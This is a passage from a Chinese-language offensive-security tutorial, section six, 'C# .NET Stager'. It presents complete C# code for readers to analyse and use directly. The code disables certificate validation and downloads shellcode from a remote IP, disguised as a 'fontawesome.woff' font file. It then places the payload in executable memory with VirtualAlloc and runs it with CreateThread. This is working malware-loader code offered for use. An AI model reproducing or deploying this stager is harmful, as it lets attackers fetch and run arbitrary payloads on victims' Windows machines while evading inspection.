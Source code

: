 六、C# .NET Stager
----------------

### 快速上手 - 完整代码

直接给出完整代码，便于一些有基础的读者，直接分析使用，当然后文会有解析。

```C#
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace L13_CS_Stager
{
    class Program
    {
        private static byte[] Download(string url)
        {
            // 不检查证书
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            // 调用DownloadData方法，下载指定内容
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            return shellcode;
        }

        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] buf)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x3000, 0x40);
            Marshal.Copy(buf, 0, (IntPtr)(addr), buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero); 
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
        static void Main(string[] args)
        {
            byte[] shellcode = Download("http://172.16.181.182/fontawesome.woff");
            Execute(shellcode);

            return;
        }
    }
}

```
